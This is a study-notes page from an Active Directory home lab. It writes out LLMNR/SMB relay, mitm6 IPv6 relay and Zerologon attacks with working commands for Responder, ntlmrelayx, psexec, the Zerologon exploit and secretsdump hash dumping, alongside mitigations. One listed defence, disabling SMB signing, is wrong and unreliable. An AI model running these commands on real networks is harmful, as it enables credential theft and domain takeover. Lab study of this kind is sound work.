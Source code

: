 ```yaml
---
layout: single
title: "Initial Attack Vectors in AD Environment"
date: 2024-09-23 10:00:00 +0000
categories:
  - Active Directory
tags:
  - AD
  - Attack vectors
permalink: /projects/ad-hacking-home-lab/initial-attack-vectors/
excerpt: "Recon and initial foothold: nmap, SMB shares, weak credentials, foothold."
image: "/assets/images/AD-images/AD-AV-01.jpg"
order: 1
---
```


# LLMNR poisoning:

LLMNR used to identify hosts when DNS failed to do so

previously NBT-NS

Keyflaw is that services utilize a user’s username and NTLMv2 hash 

### Tool:

Using responder on linux, it’s going to listen and act as a mitm and get the windows machine into giving the hash then you crack it afterwards.

# SMB Relay

instead of cracking hashes gathered using responder we can relay them to other specific machines and potentially gain access.

- SMB signing must be disabled or not enforced on the target.
- relayed user creds must be admin for real value

First check if smb is disabled or not enforced:

```jsx
nmap --script=smb2-security-mode.nse --p445 @ip
```

Second edit responder conf file and turn off smb and http then fire up responder using 

```jsx
responder -I eth0 -dwP (dP)
```

Third

```jsx
ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

### Defenses:

- disable smb signing on all devices ⇒ can cause performance issues with file copies
- disable ntlm authentication on network ⇒ if kerberos stops windows will roll to ntlm automatically
- account tiering / limiting admin to specific tasks
- local admin restriction / prevent a lot of lateral movements

# Gaining a shell

### Metasploit method (gets picked up by antivirus):

- using the smb/psexec exploit you can use either a smbuser and smbpass or smbuser with its hash to gain a shell.

### Manual method (it also got picked up):

- using 3 different tools that serve the same purpose in case one of them doesn’t work.

```jsx
psexec.py RACCON/credfield:'Password1'@192.168.52.139
```

- the other tools are [wmiexec.py](http://wmiexec.py) or smbexec.py
- you can also use a hash to gain a shell


# IPv6 Attack

This attack basically takes advantage of ipv6 being turned on and not worked with, so the mitm acts like a dns for ipv6 to gain control over th DC.

- first we start the relay proxy

```jsx
sudo ntlmrelayx.py -6 -t ldaps:\\192.168.52.138 -wh fakewpad.raccoon.local -l lootme
```

- Then we start our mitm using the mitm6 tool

```jsx
sudo mitm6 -d raccoon.local
```

- now it depends either a simple reboot will trigger the attack or in my case a login so the tool sends a spoofed replay and relays the results to ntlmrelayx.
- the lootme folder has every info about the DC for any usage
- it can also create a new normal user in the DC (after listening to an administrator login) that can be taken advantage with

### Mitigation:

- IPv6 poisoning abuses the fact that windows queries for an IPV6 address even in IPv4-only environments. if you do not use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted side effects. Setting the following predefined rules to block instead of Allow prevents the attack from working:
- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPv6)
- (Inbound) Core Networking - Router Advertisement (ICMPv6-in)
- (Outbound) Core Networking - Dynamic Host Configuration Protocol IPv6(DHCPv6- Out)
- If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc service.
- Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding.
- Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

# Initial internal attack strategy

- Begin with mitm6 or Responder
- Run scans to generate traffic
- If scans are taking too long, look for websites in scope (http_version)
- Look for default credentials on web logins (Printers, Jenkins, etc )
- Think outside the box
- Enumeration is the most essential step we have to gather as much information as we can.
- It’s okay to ask for a user to be created for us instead of leaving with nothing to hack.

# Additional attacks

## Zerologon attack :

- It’s a dangerous attack that could destroy a domain controller if not pulled off correctly.
- SecuraBV ZeroLogon Checker - https://github.com/SecuraBV/CVE-2020-1472
- dirkjanm CVE-2020-1472 - https://github.com/dirkjanm/CVE-2020-1472

```powershell
python3 exploit.py UMBRELLA-DC 192.168.52.138
```

![eg-01](/assets/images/AD-images/AD-AV-01.jpg)

- We can now dump the hashes using secretsdump

```powershell
secretsdump.py -just-dc RACCOON/UMBRELLA-DC\$@192.168.52.138
```

- And this will dump all hashes.
- To restore the domain controller, we copy the plain text password hex using the administrator hash using secretsdump.

```powershell
python3 restorepassword.py RACCOON/UMBRELLA-DC@YMBRELLA-DC -target-ip 192.168.52.138 -hexpass thehexpass
```

![eg-02](/assets/images/AD-images/AD-AV-02.jpg)